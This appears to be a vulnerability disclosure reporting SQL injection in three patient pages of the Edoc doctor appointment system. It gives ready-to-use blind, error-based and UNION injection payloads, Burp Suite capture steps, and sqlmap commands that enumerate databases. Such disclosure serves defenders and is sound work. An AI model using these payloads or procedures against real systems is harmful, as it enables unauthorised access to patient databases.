 # Edoc-doctor-appointment-system v1.0.1  was discovered to contain multiple SQL injection vulnerabilities via /patient/doctors.php , /patient/booking.php , /patient/settings.php .Allowing remote attackers to execute the sqli attack.

## 1 . Blind SQLi in /patient/doctors.php 

PoC

```
http://ip/patient/doctors.php?action=view&id=1' AND (SELECT 7788 FROM (SELECT(SLEEP(5)))gIPf)-- MVmI
```



vendor : https://github.com/HashenUdara/edoc-doctor-appointment-system

Vulnerability Position : http://ip/patient/doctors.php 



Log in to the http://ip/login.php

Visit http://ip/patient/doctors.php  ,  will access the page of the module.

Use burp suite to capture request packet , and then click the View button.

![image-20220718142415157](./img/image-20220718142415157.png)



![image-20220718142655610](./img/image-20220718142655610.png)



Copy request packet to sqlmap root path , and revise id=1*  , save as 2.txt.

![image-20220718143251333](./img/image-20220718143251333.png)



Use `python sqlmap.py -r 2.txt --threads 10 --batch --level 3 --risk 3 --dbms mysql --technique B --dbs`  to run sqlmap.

![image-20220718150104521](./img/image-20220718150104521.png)

![image-20220718143826189](./img/image-20220718143826189.png)





## 2. SQLi in /patient/booking.php 

PoC

```
sqlmap identified the following injection point(s) with a total of 71 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: http://www.doctor111.com:80/patient/booking.php?id=1 AND 7686=7686

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: http://www.doctor111.com:80/patient/booking.php?id=1 OR (SELECT 3032 FROM(SELECT COUNT(*),CONCAT(0x717a6a7071,(SELECT (ELT(3032=3032,1))),0x7170787a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://www.doctor111.com:80/patient/booking.php?id=1 AND (SELECT 8632 FROM (SELECT(SLEEP(5)))HCPI)

    Type: UNION query
    Title: Generic UNION query (NULL) - 13 columns
    Payload: http://www.doctor111.com:80/patient/booking.php?id=-4821 UNION ALL SELECT NULL,NULL,NULL,NULL,CONCAT(0x717a6a7071,0x4247754365636f69425457434250756e6877504d52795463504f436950496d726376685a64465049,0x7170787a71),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
---
```



vendor : https://github.com/HashenUdara/edoc-doctor-appointment-system

Vulnerability Position : http://ip/patient/booking.php 



Log in to the http://ip/login.php

First , visit http://ip/patient/schedule.php , and then use burpsuite to capture request packet , click Book Now button.

![image-20220718144354012](./img/image-20220718144354012.png)



![image-20220718144910131](./img/image-20220718144910131.png)



Copy request packet to sqlmap root path , and revise id=1*  , save as 2.txt.

![image-20220718145003623](./img/image-20220718145003623.png)

Use `python sqlmap.py -r 2.txt --threads 10 --batch --level 3 --risk 3 --dbms mysql --dbs`  to run sqlmap.

![image-20220718150315609](D:/Pyproject/cve\bug_e\edoc-doctor-appointment-system\img\image-20220718150315609.png)







## 3. SQLi in /patient/settings.php

PoC

```
sqlmap identified the following injection point(s) with a total of 177 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: http://www.doctor111.com:80/patient/settings.php?action=edit&id=1' AND 3197=(SELECT (CASE WHEN (3197=3197) THEN 3197 ELSE (SELECT 9367 UNION SELECT 1506) END))-- -&error=0

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: http://www.doctor111.com:80/patient/settings.php?action=edit&id=1' OR (SELECT 3493 FROM(SELECT COUNT(*),CONCAT(0x7162786a71,(SELECT (ELT(3493=3493,1))),0x717a6a7071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- ITWX&error=0

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://www.doctor111.com:80/patient/settings.php?action=edit&id=1' AND (SELECT 6213 FROM (SELECT(SLEEP(5)))kZmv)-- SfKb&error=0

    Type: UNION query
    Title: Generic UNION query (NULL) - 8 columns
    Payload: http://www.doctor111.com:80/patient/settings.php?action=edit&id=-6866' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x7162786a71,0x78415242537376577872514272566a74536270524449464568776d4e5a577a57524e676b62644d57,0x717a6a7071)-- -&error=0
---
```





vendor : https://github.com/HashenUdara/edoc-doctor-appointment-system

Vulnerability Position : http://ip/patient/settings.php



Log in to the http://ip/login.php

First , visit http://ip/patient/settings.php , and then use burpsuite to capture request packet , click Book Now button.

![image-20220718150601739](./img/image-20220718150601739.png)



![image-20220718150651966](./img/image-20220718150651966.png)

Copy request packet to sqlmap root path , and revise id=1*  , save as 2.txt.

![image-20220718150822191](./img/image-20220718150822191.png)

Use `python sqlmap.py -r 2.txt --threads 10 --batch --level 3 --risk 3 --dbms mysql --dbs`  to run sqlmap.

![image-20220718151328691](./img/image-20220718151328691.png)